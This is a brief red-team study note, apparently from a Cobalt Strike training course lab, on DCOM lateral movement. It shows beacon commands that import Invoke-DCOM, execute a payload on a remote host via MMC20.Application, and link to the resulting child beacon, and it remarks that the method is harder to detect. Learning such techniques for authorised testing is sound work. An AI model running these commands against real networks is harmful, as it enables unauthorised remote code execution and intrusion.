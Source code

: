 
DCOM is a programming construct that allows a computer to run programs over the network on a different computer as if the program was running locally. Allows [[COM Objects]] to communicate with each other over the network.



## 🖊️ via Cobalt Strike

Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so we must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1).  

Usage:

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
Completed

beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```

This method allows remote connection executions and is harder to detect.

## 📔 Description

- 

##  📗 Action to perform 


### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 14:25
🏷️ tags: #redteam #crto 

---

